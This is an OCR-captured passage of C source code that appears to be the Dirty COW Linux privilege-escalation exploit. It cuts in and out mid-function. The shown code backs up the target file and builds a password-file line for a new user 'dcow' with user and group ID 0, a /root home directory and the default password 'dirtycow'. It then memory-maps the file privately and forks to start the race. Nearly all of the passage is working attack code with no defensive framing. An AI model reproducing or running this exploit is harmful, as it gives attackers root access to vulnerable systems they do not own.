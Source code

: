 ```bash
    return -1;
  }
  target = fopen(to, "w");
  if(target == NULL) {
     fclose(source);
     return -1;
  }

  while((ch = fgetc(source)) != EOF) {
     fputc(ch, target);
   }

  printf("%s successfully backed up to %s\n",
    from, to);

  fclose(source);
  fclose(target);

  return 0;
}

int main(int argc, char *argv[]) {
  // backup file
  int ret = copy_file(filename, backup_filename);
  if (ret != 0) {
    exit(ret);
  }

  struct Userinfo user;
  // set values, change as needed
  user.username = "dcow";
  user.user_id = 0;
  user.group_id = 0;
  user.info = "dirty cow";
  user.home_dir = "/root";
  user.shell = "/bin/bash";

  char *plaintext_pw;

  if (argc >= 2) {
    plaintext_pw = argv[1];
    printf("Password: %s\n", plaintext_pw);
  } else {
    plaintext_pw = "dirtycow";
    printf("Password: %s\n", plaintext_pw);
  }

  user.hash = generate_password_hash(plaintext_pw);
  char *complete_passwd_line = generate_passwd_line(user);
  printf("Complete line:\n%s\n", complete_passwd_line);

  f = open(filename, O_RDONLY);
  fstat(f, &st);
  map = mmap(NULL,
             st.st_size + sizeof(long),
             PROT_READ,
             MAP_PRIVATE,
             f,
             0);
  printf("mmap: %p\n\n", map);
  pid = fork();
  if(pid) {
    waitpid(pid, NULL, 0);
```